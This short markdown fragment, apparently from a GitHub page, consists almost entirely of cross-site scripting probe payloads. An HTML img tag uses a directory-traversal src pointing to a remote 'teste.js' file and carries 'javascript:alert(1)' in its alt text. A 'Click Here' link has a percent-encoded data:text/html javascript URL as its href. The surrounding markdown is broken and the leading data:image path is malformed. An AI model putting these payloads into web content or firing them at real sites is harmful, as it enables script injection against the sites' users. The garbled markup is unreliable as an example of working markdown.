 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="data%3atext/html;javascript%3aalert(1)">Click Here</a>


](()
